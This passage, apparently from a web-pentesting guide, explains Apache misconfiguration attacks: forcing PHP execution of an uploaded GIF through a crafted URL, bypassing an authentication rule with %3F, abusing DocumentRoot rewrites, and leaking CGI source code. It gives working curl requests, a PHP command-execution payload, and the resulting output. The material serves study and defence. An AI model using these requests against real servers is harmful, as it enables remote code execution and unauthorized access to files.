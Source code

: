 - **Mislead RewriteFlag Assignment**

In the following rewrite rule, as long as the URL ends in .php it's going to be treated and executed as php. Therefore, it's possible send a URL that ends in .php after the `?` char while loading in the path a different type of file (like an image) with malicious php code inside of it:

```bash
RewriteEngine On
RewriteRule  ^(.+\.php)$  $1  [H=application/x-httpd-php]

# Attacker uploads a gif file with some php code
curl http://server/upload/1.gif
# GIF89a <?=`id`;>

# Make the server execute the php code
curl http://server/upload/1.gif%3fooo.php
# GIF89a uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### **ACL Bypass**

It's possible to access files the user shouldn't be able to access even if the access should be denied with configurations like:

```xml
<Files "admin.php">
    AuthType Basic
    AuthName "Admin Panel"
    AuthUserFile "/etc/apache2/.htpasswd"
    Require valid-user
</Files>
```

This is because by default PHP-FPM will receive URLs ending in `.php`, like `http://server/admin.php%3Fooo.php` and because PHP-FPM will remove anything after the character `?`, the previous URL will allow to load `/admin.php` even if the previous rule prohibited it.

### DocumentRoot Confusion

```bash
DocumentRoot /var/www/html
RewriteRule  ^/html/(.*)$   /$1.html
```

A fun fact about Apache is that the previous rewrite will try to access the file from both the documentRoot and from root. So, a request to `https://server/abouth.html` will check for the file in `/var/www/html/about.html` and `/about.html` in the file system. Which basically can be abused to access files in the file system.

#### **Server-Side Source Code Disclosure**

- **Disclose CGI Source Code**

Just adding a %3F at the end is enough to leak the source code of a cgi module:

```bash
curl http://server/cgi-bin/download.cgi
 # the processed result from download.cgi
curl http://server/html/usr/lib/cgi-bin/download.cgi%3F
 # #!/usr/bin/perl
 # use CGI;
 # ...
 # # the source code of download.cgi
```
